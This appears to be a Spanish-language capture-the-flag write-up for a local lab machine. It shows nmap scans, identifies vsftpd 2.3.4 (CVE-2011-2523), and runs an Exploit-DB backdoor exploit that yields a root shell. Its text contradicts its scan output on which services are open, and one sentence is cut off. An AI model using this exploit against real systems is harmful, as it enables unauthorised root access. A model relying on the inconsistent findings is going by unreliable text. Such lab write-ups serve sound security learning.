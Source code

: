 #tag

![](../../../Images/Pasted%20image%2020241008071742.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
```

## FTP (21 TCP Port)

Enumerando el servicio **FTP** nos encontramos con una versión que tiene la vulnerabildiad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) que permite la ejecución de comandos.

Descargando el siguiente [exploit](https://www.exploit-db.com/exploits/49757) conseguimos una 
```
> python3 49757 172.17.0.2

/home/rh4ps00dy/Downloads/firsthacking/49757:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
id
uid=0(root) gid=0(root) groups=0(root)
```